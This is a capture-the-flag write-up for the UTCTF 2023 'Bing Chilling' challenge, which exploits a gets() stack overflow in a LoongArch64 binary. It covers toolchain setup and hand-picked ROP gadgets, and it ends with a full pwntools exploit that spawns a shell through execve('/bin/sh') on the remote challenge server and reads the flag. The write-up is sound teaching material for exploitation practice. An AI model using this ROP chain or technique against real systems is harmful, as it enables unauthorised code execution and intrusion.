



## Bing Chilling

was a pwn challenge from UTCTF 2023

it's a LoongArch 64bit binary to exploit, a simple `gets()` overflow, it could be seen as an easy introduction to LoongArch64 architecture.

I could have almost copy/paste my write-up for Riscv64 exploitation from HackIM.2022 as the two challenges are similar

[https://github.com/nobodyisnobody/write-ups/tree/main/nullcon.HackIM.2022/pwn/typical.ROP](https://github.com/nobodyisnobody/write-ups/tree/main/nullcon.HackIM.2022/pwn/typical.ROP)

The challenge had only 1 solve (me actually), just because the people are not used to this architecture.

------

#### 1 . *A beginning is a very delicate time.*

so first we need tools:

+ If you don't own a LoongArch computer, you will need an emulator to run the binary. LoongArch64 support has been introduced in qemu version 7.1.0, so if your system does not have a version enough new, you will have to compile qemu yourself with the loongarch support..

you can do something like this:

```bash
wget https://download.qemu.org/qemu-7.2.0.tar.xz
tar xf qemu-7.2.0.tar.xz
cd qemu-7.2.0
./configure --target-list=loongarch64-linux-user
make
```

you will get in `build/` subdirectory a `qemu-loongarch64` binary that you can use to run the challenge binary


+ next, you will need a toolchain to be able to disassemble, compile  your program..

you can find a toolchain on on this page -->  [https://github.com/loongson/build-tools](https://github.com/loongson/build-tools)

the file is:

[https://github.com/loongson/build-tools/releases/download/2022.09.06/loongarch64-clfs-6.3-cross-tools-gcc-glibc.tar.xz](https://github.com/loongson/build-tools/releases/download/2022.09.06/loongarch64-clfs-6.3-cross-tools-gcc-glibc.tar.xz)

extract it, you will have all the tools you need in subdirectory `cross-tools/bin/`


+ last but not least we will need a `gdb` version that support loongarch, it has been introduced in version 13.1

so let's download it. we will install it in `/opt/gdb`  (you can delete it after challenge if not used anymore)

```bash
wget https://ftp.gnu.org/gnu/gdb/gdb-13.1.tar.xz
tar xf gdb-13.1.tar.xz
cd gdb-13.1
mkdir build
cd build
../configure --target=loongarch64-unknown-linux-gnu --prefix=/opt/gdb
make
sudo make install
```

the resulting gdb binary, will be at `/opt/gdb/bin/loongarch64-unknown-linux-gnu-gdb`


+ we could need a bit of docs too:

  [https://blog.xen0n.name/en/posts/tinkering/loongarch-faq/](https://blog.xen0n.name/en/posts/tinkering/loongarch-faq/)
  [https://loongson.github.io/LoongArch-Documentation/LoongArch-Vol1-EN.html](https://loongson.github.io/LoongArch-Documentation/LoongArch-Vol1-EN.html)

you can find other docs around.

------

2. #### First examination.

**To resume quickly loongarch64 architecture from a pwn point of view:**

- well... that's a risc processor not much different from mips (without delayed slot) , riscv, etc...

- for syscalls, arguments are in registers (in order):   **a0**, **a1**, **a2**, **a3**, **a4**, etc...

- syscall number is in register: **a7**

- no return instruction, returns to address stored in **ra** register

  often return with `jirl $zero, $ra, 0`    instruction, that jump to $ra

- `bl` (equivalent to call)  , store return address in **ra**,  and jump to our function

- syscall instruction is named **syscall** 

now that we have `loongarch64-unknown-linux-gnu-objdump` let's have a look to challenge `main()` function:

```bash
./cross-tools/bin/loongarch64-unknown-linux-gnu-objdump -axd --disassembler-color=extended-color ./hello | less -r +2120
```



without a big knownledge of loongarch64 we can understand immediatly what the challenge does..

substract 80 to `$sp` stack pointer, store `$ra` and `$fp` registers on stack,  `$ra` is the return address passed by the caller.

then it print a message with `puts()`,  after this, it read user input with `gets()` (this is the vuln as gets only stop to take input when it receive a carriage return),  then it `printf()` a message with our buffer.

then the return address in read back from stack in `$ra` , the `$fp` register too .. the $`sp` register is added with 80, and we return to caller with the `jirl $zero,$ra,0`  that jump to address in `$ra`

The `gets()` function read its input at address pointed by `$sp`  and we can see at the beginning of function that `$ra` is stored at `$sp`+72

so an educated guess will tell us that if we send 80 chars as input, we will overwrite return address, let's try:

```bash
python -c "print('A'*80)" | qemu-loongarch64 -strace hello
```



ok we just add `-strace` option to qemu, to trace syscalls , you can see that `si_addr` that makes the program crash is overwritten by our string.. so we have reach the return address..

------

3. #### A man with a plan...

so now it would be nice to be able to debug this program, to see what's in registers, in stack, etc...

so in a terminal you can launch for example

```bash
python -c "print('A'*80+'BBBBBBBB'+'CCCCCCCC')" | ~/work/qemu/qemu-7.2.0/build/qemu-loongarch64 -g 1235 hello
```

it will block waiting for gdb connection:

and in another terminal you launch:

```bash
/opt/gdb/bin/loongarch64-unknown-linux-gnu-gdb -ex 'target remote:1235' -ex 'b *0x120000570' -ex 'c'
```

we have setup a breakpoint at address 0x120000570 it is the end of the main function, the return instruction as you can see in the picture above.


ok, after this is standard gdb debugging, I will not make a tutorial on gdb debugging, you can find a lot on internet..

but you can step instruction, examine registers.. etc.. enough for debugging

------

4. #### Ropping the hard way

   

   So now you have to find ROP gadgets.. you also have the options to write a shellcode on stack, as stack is RWX in qemu-user.

but it would need to guess the stack address remotely, which was different from the local one.. so we will do a ROP.

The binary is compiled statically, so there are a lot of gadgets, but (as the time of writing) no tools exist to automatize the search of gadget for loongarch.

So you will have to use the old way.. use `objdump` to disassemble the binary like above, search visually for gadgets..

you can grep registers , instructions,  take notes of usefull gadgets..

this is the manual way..but with an educated eye, it's not difficult..just a bit more slow..

so here is the gadgets I have used:

```assembly
   12000c034:   28c0a061        ld.d            $ra, $sp, 40(0x28)
   12000c038:   28c08077        ld.d            $s0, $sp, 32(0x20)
   12000c03c:   28c06078        ld.d            $s1, $sp, 24(0x18)
   12000c040:   28c04079        ld.d            $s2, $sp, 16(0x10)
   12000c044:   28c0207a        ld.d            $s3, $sp, 8(0x8)
   12000c048:   02c0c063        addi.d          $sp, $sp, 48(0x30)
```

gadget0 = 0x12000c034

```  assembly
   12000b090:   28c1a061        ld.d            $ra, $sp, 104(0x68)
   12000b094:   001502e4        move            $a0, $s0
   12000b098:   28c18076        ld.d            $fp, $sp, 96(0x60)
   12000b09c:   28c16077        ld.d            $s0, $sp, 88(0x58)
   12000b0a0:   28c14078        ld.d            $s1, $sp, 80(0x50)
   12000b0a4:   28c12079        ld.d            $s2, $sp, 72(0x48)
   12000b0a8:   28c1007a        ld.d            $s3, $sp, 64(0x40)
   12000b0ac:   28c0e07b        ld.d            $s4, $sp, 56(0x38)
   12000b0b0:   28c0c07c        ld.d            $s5, $sp, 48(0x30)
   12000b0b4:   28c0a07d        ld.d            $s6, $sp, 40(0x28)
   12000b0b8:   02c1c063        addi.d          $sp, $sp, 112(0x70)
   12000b0bc:   4c000020        jirl            $zero, $ra, 0
```

gadget1 = 0x12000b090

```   assembly
   120048098:   0015008d        move            $t1, $a0
   12004809c:   28c12061        ld.d            $ra, $sp, 72(0x48)
   1200480a0:   28c02064        ld.d            $a0, $sp, 8(0x8)
   1200480a4:   28c04065        ld.d            $a1, $sp, 16(0x10)
   1200480a8:   28c06066        ld.d            $a2, $sp, 24(0x18)
   1200480ac:   28c08067        ld.d            $a3, $sp, 32(0x20)
   1200480b0:   28c0a068        ld.d            $a4, $sp, 40(0x28)
   1200480b4:   28c0c069        ld.d            $a5, $sp, 48(0x30)
   1200480b8:   28c0e06a        ld.d            $a6, $sp, 56(0x38)
   1200480bc:   28c1006b        ld.d            $a7, $sp, 64(0x40)
   1200480c0:   2b814060        fld.d           $fa0, $sp, 80(0x50)
   1200480c4:   2b816061        fld.d           $fa1, $sp, 88(0x58)
   1200480c8:   2b818062        fld.d           $fa2, $sp, 96(0x60)
   1200480cc:   2b81a063        fld.d           $fa3, $sp, 104(0x68)
   1200480d0:   2b81c064        fld.d           $fa4, $sp, 112(0x70)
   1200480d4:   2b81e065        fld.d           $fa5, $sp, 120(0x78)
   1200480d8:   2b820066        fld.d           $fa6, $sp, 128(0x80)
   1200480dc:   2b822067        fld.d           $fa7, $sp, 136(0x88)
   1200480e0:   02c24063        addi.d          $sp, $sp, 144(0x90)
   1200480e4:   4c0001a0        jirl            $zero, $t1, 0
```

gadget2 = 0x120048098

```assembly
22555:   120013e30:	002b0000 	syscall     	0x0
22556-   120013e34:	4c000020 	jirl        	$zero, $ra, 0
```

syscall = 0x120013e30


with `gadget0` I can set `$s0` register

with `gadget1` I can set `$a0` = `$s0`

with `gadget2` I can call function in `$a0` (that is copied to `$t1`), and set all the registers we need, this is like `setcontext()` gadget

and guess what ?   with `syscall` gadget we can do a syscall.

so with these 4 gadgets we have all we need..

------

5. #### Let me see the exploit (I'm bored of your endless explanations)

   so I first reuse program `gets()` function to write "/bin/sh" string in .bss

   then set the registers to call `execve` syscall

   and that's all

   

   code speaks by itself.

```python
from pwn import *
context.log_level = 'info'

if args.REMOTE:
  p = remote('guppy.utctf.live', 7133)
else:
  if args.GDB:
    p = process('~/work/qemu/last/build/qemu-loongarch64 -strace -D log3 -g 1235 hello', shell=True)
  else:
    p = process('~/work/qemu/last/build/qemu-loongarch64 -strace -D log3 hello', shell=True)

puts = 0x00000012000c438
gets = 0x00000012000c098
read = 0x00000012001df80
exit = 0x0000001200057e0
write = 0x00000012001e054
__NR_execve = 221
__NR_read = 63
__NR_write = 64

'''
   12000c034:   28c0a061        ld.d            $ra, $sp, 40(0x28)
   12000c038:   28c08077        ld.d            $s0, $sp, 32(0x20)
   12000c03c:   28c06078        ld.d            $s1, $sp, 24(0x18)
   12000c040:   28c04079        ld.d            $s2, $sp, 16(0x10)
   12000c044:   28c0207a        ld.d            $s3, $sp, 8(0x8)
   12000c048:   02c0c063        addi.d          $sp, $sp, 48(0x30)
'''
gadget0 = 0x12000c034

'''12000b090:   28c1a061        ld.d            $ra, $sp, 104(0x68)
   12000b094:   001502e4        move            $a0, $s0
   12000b098:   28c18076        ld.d            $fp, $sp, 96(0x60)
   12000b09c:   28c16077        ld.d            $s0, $sp, 88(0x58)
   12000b0a0:   28c14078        ld.d            $s1, $sp, 80(0x50)
   12000b0a4:   28c12079        ld.d            $s2, $sp, 72(0x48)
   12000b0a8:   28c1007a        ld.d            $s3, $sp, 64(0x40)
   12000b0ac:   28c0e07b        ld.d            $s4, $sp, 56(0x38)
   12000b0b0:   28c0c07c        ld.d            $s5, $sp, 48(0x30)
   12000b0b4:   28c0a07d        ld.d            $s6, $sp, 40(0x28)
   12000b0b8:   02c1c063        addi.d          $sp, $sp, 112(0x70)
   12000b0bc:   4c000020        jirl            $zero, $ra, 0
'''
gadget1 = 0x12000b090

'''
   120048098:   0015008d        move            $t1, $a0
   12004809c:   28c12061        ld.d            $ra, $sp, 72(0x48)
   1200480a0:   28c02064        ld.d            $a0, $sp, 8(0x8)
   1200480a4:   28c04065        ld.d            $a1, $sp, 16(0x10)
   1200480a8:   28c06066        ld.d            $a2, $sp, 24(0x18)
   1200480ac:   28c08067        ld.d            $a3, $sp, 32(0x20)
   1200480b0:   28c0a068        ld.d            $a4, $sp, 40(0x28)
   1200480b4:   28c0c069        ld.d            $a5, $sp, 48(0x30)
   1200480b8:   28c0e06a        ld.d            $a6, $sp, 56(0x38)
   1200480bc:   28c1006b        ld.d            $a7, $sp, 64(0x40)
   1200480c0:   2b814060        fld.d           $fa0, $sp, 80(0x50)
   1200480c4:   2b816061        fld.d           $fa1, $sp, 88(0x58)
   1200480c8:   2b818062        fld.d           $fa2, $sp, 96(0x60)
   1200480cc:   2b81a063        fld.d           $fa3, $sp, 104(0x68)
   1200480d0:   2b81c064        fld.d           $fa4, $sp, 112(0x70)
   1200480d4:   2b81e065        fld.d           $fa5, $sp, 120(0x78)
   1200480d8:   2b820066        fld.d           $fa6, $sp, 128(0x80)
   1200480dc:   2b822067        fld.d           $fa7, $sp, 136(0x88)
   1200480e0:   02c24063        addi.d          $sp, $sp, 144(0x90)
   1200480e4:   4c0001a0        jirl            $zero, $t1, 0
'''
gadget2 = 0x120048098

'''
22555:   120013e30:	002b0000 	syscall     	0x0
22556-   120013e34:	4c000020 	jirl        	$zero, $ra, 0
'''
syscall = 0x120013e30

stack = 0x40008029a0
payload = 'A'*72
payload += p64(gadget0)
# put syscall address in $s0
payload += flat({
  32: p64(syscall),
  40: p64(gadget1),
})
# put $s0 in $a0
payload += flat({
  104: p64(gadget2),
})
# call syscall read with correct registers, we will store '/bin/sh' in .bss
payload += flat({
  8: p64(0),
  16: p64(0x00000012008d2d0),
  24: p64(8),
  64: p64(63),
  72: p64(gadget0),
  136: p64(0),
})
# put syscall address in $s0 again
payload += flat({
  32: p64(syscall),
  40: p64(gadget1),
})
# humm, put $s0 in $a0
payload += flat({
  104: p64(gadget2),
})
# we call syscall execve('/bin/sh', 0, 0) 
payload += flat({
  8: p64(0x00000012008d2d0),
  16: p64(0),
  24: p64(0),
  64: p64(__NR_execve),
  72: p64(gadget0),
  136: p64(0),
})


p.sendlineafter('\n', payload)
# command to execute so
p.sendline('/bin/sh\x00')
# enjoy shell
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still pwning things*
